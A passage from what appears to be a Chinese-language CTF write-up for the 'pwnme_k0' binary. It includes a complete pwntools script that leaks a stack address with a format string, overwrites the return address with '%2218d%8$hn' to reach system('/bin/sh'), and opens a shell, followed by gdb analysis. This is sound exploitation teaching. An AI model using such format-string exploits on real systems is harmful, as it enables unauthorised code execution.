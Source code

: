 ```assembly
.text:00000000004008B8                 db 90h
.text:00000000004008B9 ; ---------------------------------------------------------------------------
.text:00000000004008B9                 pop     rbp
.text:00000000004008BA                 retn
.text:00000000004008BA ; } // starts at 4008A6
```

- `system(/bin/sh)`的地址`0x4008A6`和上面的返回地址的值`0x400d74`仅在最后2B有区别，即最后4个16进制数有区别。

# Exploit

```python
from pwn import *  # sangebaimao exploit
context.log_level = "debug"
context.binary = './pwnme_k0'
sh = process("./pwnme_k0")
# gdb.attach(sh)

sh.recv()
sh.sendline("user1111")  # user name
sh.recv()
sh.sendline("%6$p")  # pw # to get last RBP value using cur RBP value
sh.sendline("1")  # 1.Sh0w Account Infomation! # let %6$p work
sh.recvuntil("0x")
lastRBP = sh.recvline().strip()  # sh.recvline(): b'7fffdc7918c0\n' <class 'bytes'>
print("lastRBP:", lastRBP, type(lastRBP))
addr_of_ret_addr = int(lastRBP, 16) - 0x38  # - 0x38 之后就是 addr of ret addr
print("addr_of_ret_addr:" + hex(addr_of_ret_addr))
sh.recv()

sh.writeline("2")  # 2.Ed1t Account Inf0mation!
sh.recv()  # please input new username(max lenth:20):
sh.sendline(p64(addr_of_ret_addr))  # user name: addr_of_ret_addr
sh.recv()  # please input new password(max lenth:20):
sh.sendline("%2218d%8$hn")  # pw # 0x08aa=2218 0x08a6=2214 # 将addr_of_ret_addr上的双字节改为0x08aa
# 至此，用户名和密码已经被更改，但是还没有达到劫持返回地址的目的，即还未执行printf(usr name); printf(pw)
sh.recv()
sh.sendline("1")  # 1.Sh0w Account Infomation! # hijack ret addr HERE
sh.recv()
sh.interactive()
```

- 逻辑解释见*how to hijack retaddr*



## Post Analysis

- 在ret addr被修改前的最后一个printf处断下，分析调用前的传参与栈帧：

```assembly
gef➤  c # 这时在 printf("%2218d%8$hn") 处断下 # 删除了部分输出
Continuing.
Breakpoint 1, 0x0000000000400b39 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────── registers ──── ..............
$rsp   : 0x00007fff664f9300  →  0x00007fff664f9340  →  0x00007fff664f93f0  →  0x0000000000400eb0  →   push r15
$rbp   : 0x00007fff664f9300  →  0x00007fff664f9340  →  0x00007fff664f93f0  →  0x0000000000400eb0  →   push r15
$rsi   : 0x664f9308        
$rdi   : 0x00007fff664f9324  →  "%2218d%8$hn\n" # fmt str pointer # printf函数的格式化字符串参数地址
$rip   : 0x0000000000400b39  →   call 0x400770 <printf@plt>
$r8    : 0x1999999999999999
```